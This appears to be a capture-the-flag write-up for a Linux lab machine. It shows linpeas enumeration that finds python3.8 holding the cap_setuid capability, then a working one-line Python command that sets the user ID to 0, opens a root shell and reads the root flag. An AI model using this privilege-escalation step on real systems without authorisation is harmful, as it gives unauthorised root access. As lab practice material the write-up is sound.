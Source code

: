 # Enumeration-
Linpeas-

![[Pasted image 20210620060443.png]]

### Found python with Capabilities-
```bash
Files with capabilities:
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

### Checking the python binary-

```bash
nathan@cap:~$ ls -la /usr/bin/ | grep -i python3
lrwxrwxrwx  1 root   root          23 Jan 27 15:41 pdb3.8 -> ../lib/python3.8/pdb.py
lrwxrwxrwx  1 root   root          31 Mar 13  2020 py3versions -> ../share/python3/py3versions.py
lrwxrwxrwx  1 root   root           9 Mar 13  2020 python3 -> python3.8
lrwxrwxrwx  1 root   root          16 Mar 13  2020 python3-config -> python3.8-config
-rwxr-xr-x  1 root   root     5486384 Jan 27 15:41 python3.8
lrwxrwxrwx  1 root   root          33 Jan 27 15:41 python3.8-config -> x86_64-linux-gnu-python3.8-config
lrwxrwxrwx  1 root   root          33 Mar 13  2020 x86_64-linux-gnu-python3-config -> x86_64-linux-gnu-python3.8-config
-rwxr-xr-x  1 root   root        3240 Jan 27 15:41 x86_64-linux-gnu-python3.8-config
```

### `lrwxrwxrwx  1 root   root           9 Mar 13  2020 python3 -> python3.8`
It is owned by root :)

# Exploitation & Root.txt-

```bash
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cd /root
# ls
root.txt  snap
# cat root*
4f55e5c84d741add4b8aa512defb20d9
```


PAWNED!!!